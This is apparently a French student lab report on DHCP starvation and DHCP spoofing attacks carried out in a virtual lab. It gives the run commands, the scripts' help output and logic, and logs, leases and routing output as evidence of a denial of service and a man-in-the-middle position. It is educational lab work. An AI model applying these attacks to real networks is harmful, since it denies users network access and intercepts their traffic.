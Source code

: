 # Part V : Playing with DHCP

## 1. DHCP Starvation

- Le [script](./scripts/dhcp_starvation.py)
=> Le script fais des `DHCP Discover` pour ensuite faire des `DHCP Request` en se servant de l'IP donné par le `DHCP Offer`, avec une address MAC différente pour chaque itération

=> Execution :
```
sudo python3 dhcp_starvation.py
```
=> Le 🦈 [pcap](./pcaps/dhcp_starvation_1.pcap) lié a l'exécution du script
=> Remarque : Quand le serveur DHCP n'a plus de bail de disponible on voit qu'il ne répond plus aux `DHCP Request` (visible dans le [pcap](./pcaps/dhcp_starvation_1.pcap.pcap), il finis bien par un `DHCP Discover`)
Côté `dhcp` on remarque l'erreur dans les logs :
```
Feb 13 16:06:37 dhcp.tp1.my dhcpd[1419]: DHCPDISCOVER from ee:4d:74:d5:55:81 via enp1s0: network 10.1.1.0/24: no free leases
```

- Les bails DHCP
```
[root@dhcp vm-3]# cat /var/lib/dhcpd/dhcpd.leases | grep "lease 10.1.1" | wc -l
101
```
On a bien les IP possibles qui sont toutes attribué à des addresses MAC random

- Preuve du DOS
=> sur `node2`
```
[root@node2 vm-2]# dhclient -v
Internet Systems Consortium DHCP Client 4.4.2b1
Copyright 2004-2019 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/enp1s0/52:54:00:7b:ae:9d
Sending on   LPF/enp1s0/52:54:00:7b:ae:9d
Sending on   Socket/fallback
DHCPDISCOVER on enp1s0 to 255.255.255.255 port 67 interval 6 (xid=0x59188267)
DHCPDISCOVER on enp1s0 to 255.255.255.255 port 67 interval 9 (xid=0x59188267)
```
=> On remarque le même comportement pour notre script, le serveur DNS ne répond pas aux `DHCP Discover`

=> le [pcap](./pcaps/dhcp_starvation_2.pcap), `node2` envois des Discovers, mais n'a aucune réponse vu que le serveur DHCP est plein
Côté DHCP :
```
Feb 13 16:59:39 dhcp.tp1.my dhcpd[1456]: DHCPDISCOVER from 52:54:00:7b:ae:9d via enp1s0: network 10.1.1.0/24: no free leases
```

## 2. DHCP Spoofing


### Le script

#### Explication consise du script :

On définis un réseau "10.230.6.0/24" (un réseau que je suppose jamais utilisé en règle général, pour ne pas avoir de conflit dans l'attribution d'IP) et une GATEWAY "10.230.6.254". 
On ajoute une IP (10.230.6.254) dans l'interface réseau renseigné qui possède une IP dans le réseau du TP1 (10.1.1.0/24) => l'interface possède donc 2 IPs, une "réel" et une "fictive" destiner à l'attaque  

je sniff sur 3 choses :

- Si je sniff une requete DHCP "Discover", alors je craft une requête "Offer" en proposant une IP dans le réseau "10.230.6.0/24" et en mettant comme gateway "10.230.6.254"

- Si je sniff une requête DHCP "Request", alors je check que c'est bien une réponse à mon "Offer", si c'est le cas j'envoie une requête "ACK" pour finaliser la transaction

- Si je sniff une requête ARP pour connaitre l'address MAC de 10.230.6.254, alors je réponds en disant "C MOUA" avec ma MAC

#### Execution du script :
```
# sudo python3 dhcp_spoofing.py --help

usage: dhcp_spoofing.py [-h] [--network-interface NETWORK_INTERFACE] [--my-MAC MY_MAC]

DHCP Spoofing, address MAC et Interface réseau renseignable

options:
  -h, --help            show this help message and exit
  --network-interface NETWORK_INTERFACE
                        Interface réseau à travers laquel faire le spoofing (par défault: enp1s0)
  --my-MAC MY_MAC       Mon adresse MAC (par défaut: 52:54:00:da:33:63)
```

#### Capture wireshark :

Le lien vers la [capture](./pcaps/dhcp_spoofing_1.pcap) des requêtes DHCP, on remarque d'ailleurs les bizarrerie du fais d'être avec des VM.  

#### Preuve du spoofing 

- Address IP : 10.230.6.186 car le script attribue une IP aléatoire parmis celle disponible
```
[vm-1@node1 ~]$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp1s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 52:54:00:2d:8b:c8 brd ff:ff:ff:ff:ff:ff
    inet 10.230.6.186/24 brd 10.230.6.255 scope global dynamic enp1s0
       valid_lft 2496sec preferred_lft 2496sec
    inet6 fe80::5054:ff:fe2d:8bc8/64 scope link 
       valid_lft forever preferred_lft forever
```

- Passerelle :

```
[vm-1@node1 ~]$ ip r
default via 10.230.6.254 dev enp1s0 
10.230.6.0/24 dev enp1s0 proto kernel scope link src 10.230.6.186 
```

- Serveur DNS :
```
[vm-1@node1 ~]$ cat /etc/resolv.conf 
; generated by /usr/sbin/dhclient-script
nameserver 1.1.1.1
```

### MITM again

La [capture](./pcaps/dhcp_spoofing_2.pcap) montrant les pings ICMP passant par la machine attaquante
